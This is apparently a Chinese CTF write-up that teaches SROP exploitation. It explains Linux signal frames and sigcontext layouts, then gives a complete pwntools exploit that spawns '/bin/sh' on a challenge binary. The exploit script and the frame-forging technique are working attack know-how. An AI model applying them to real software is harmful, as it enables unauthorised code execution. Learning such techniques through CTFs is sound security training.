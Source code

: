 SQCTF的 当时只道是寻常 
TGCTF 的 norop 
之前就听队里师傅问我SROP学了没，这次刚好有个契机就学了
SROP(Sigreturn Oriented Programming)，简单来说就是通过系统调用号为0xf(sigreturn)的系统调用执行一个可以将所有寄存器赋值的函数来实现对所有寄存器的控制，从而直接执行某个函数的操作。
# Signal 机制
signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：
![[Pasted image 20250427151753.png]]
1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的****地址空间****的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext
- x86
```Plain
struct sigcontext{  
    unsigned short gs, __gsh;  
    unsigned short fs, __fsh;  
    unsigned short es, __esh;  
    unsigned short ds, __dsh;  
    unsigned long edi;  
    unsigned long esi;  
    unsigned long ebp;  
    unsigned long esp;  
    unsigned long ebx;  
    unsigned long edx;  
    unsigned long ecx;  
    unsigned long eax;  
    unsigned long trapno;  
    unsigned long err;  
    unsigned long eip;  
    unsigned short cs, __csh;  
    unsigned long eflags;  
    unsigned long esp_at_signal;  
    unsigned short ss, __ssh;  
    struct _fpstate * fpstate;  
    unsigned long oldmask;  
    unsigned long cr2;
};
```
- x64
```Plain
struct _fpstate{  
    /* FPU environment matching the 64-bit FXSAVE layout.  */  
    __uint16_t        cwd;  
    __uint16_t        swd;  
    __uint16_t        ftw;  
    __uint16_t        fop;  
    __uint64_t        rip;  
    __uint64_t        rdp;  
    __uint32_t        mxcsr;  
    __uint32_t        mxcr_mask;  
    struct _fpxreg    _st[8];  
    struct _xmmreg    _xmm[16];  
    __uint32_t        padding[24];
};
struct sigcontext{  
    __uint64_t r8;  
    __uint64_t r9;  
    __uint64_t r10;  
    __uint64_t r11;  
    __uint64_t r12;  
    __uint64_t r13;  
    __uint64_t r14;  
    __uint64_t r15;  
    __uint64_t rdi;  
    __uint64_t rsi;  
    __uint64_t rbp;  
    __uint64_t rbx;  
    __uint64_t rdx;  
    __uint64_t rax;  
    __uint64_t rcx;  
    __uint64_t rsp;  
    __uint64_t rip;  
    __uint64_t eflags;  
    unsigned short cs;  
    unsigned short gs;  
    unsigned short fs;  
    unsigned short __pad0;  
    __uint64_t err;  
    __uint64_t trapno;  
    __uint64_t oldmask;  
    __uint64_t cr2;  
    extension union    {      
        struct _fpstate * fpstate;      
        __uint64_t __fpstate_word;    
        };  
    __uint64_t __reserved1 [8];
};
```
![[Pasted image 20250427151907.png]]
3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。
# 利用
`SROP`的利用很简单，只需要攻击者可以控制栈空间，即可以向栈空间写入大量（长度至少包含构造的`fake frame`)数据，**然后控制`rsp`指向存有我们构造的`fake frame`，并控制`rax`为`0xf`，然后执行`syscall`就可以实现`srop`的攻击。**
注意是控制`rsp`指向`fake frame`的头部，其他指针除了`rax`外应该都无所谓。
实际构造时发现可能有些非寄存器的位置非零也不影响最后的执行，具体哪些还没细探究过，目前只知道最后两个位置应该不影响
`Fake frame`的构造`pwntools`库有现现成的，可以直接构造
```Python
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045
```
这边用一题来举例
程序很简单
![[Pasted image 20250427151951.png]]
构造了三个函数，中间`read`，前后`write`，可以控制`rsi`，但无法控制`rdi`，有`0x400`的`read`，足够构造`SROP`链。
```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = True
debug = True
if local:
    p = process('./pwn01')
    if debug:
        gdb.attach(p, gdbscript='b main')
else:
    ip ,port = "challenge.qsnctf.com:32442".split(":")
    p = remote(ip, port)

pop_rax = 0x40104a
binsh = 0x40203a
syscall = 0x40101d

frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045

payload = p64(0)
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(0x401042)
payload += bytes(frame1)
p.send(payload)

p.interactive()
```
这里我们直接贴 exp，结合 exp 讲
程序是直接有`binsh`的地址的，那么我们只需要构造 SROP，把他读入到栈上然后`syscall`就可以，那么要考虑的就是控制`rsi`的值，控制`rsi`的值就要用到最后一个`syscall`前面的`mov rsi, rsp;` rsp 始终是指向栈上的，那么我们只需要控制执行`syscall`的时候`rsp`刚好是我们构造的`fake frame`前面即可，这是很好做到的。
![[Pasted image 20250427152016.png]]
可以看到根据我们的 exp，`0x7ffd226a2338`处开始就是我们的`fake frame`，
![[Pasted image 20250427152025.png]]
执行到`syscall`的时`rsi`已经指向了`fake frame`的顶部，可以开始SROP
![[Pasted image 20250427152040.png]]
实际就可以根据我们构造的寄存器来执行`system("/bin/sh")`。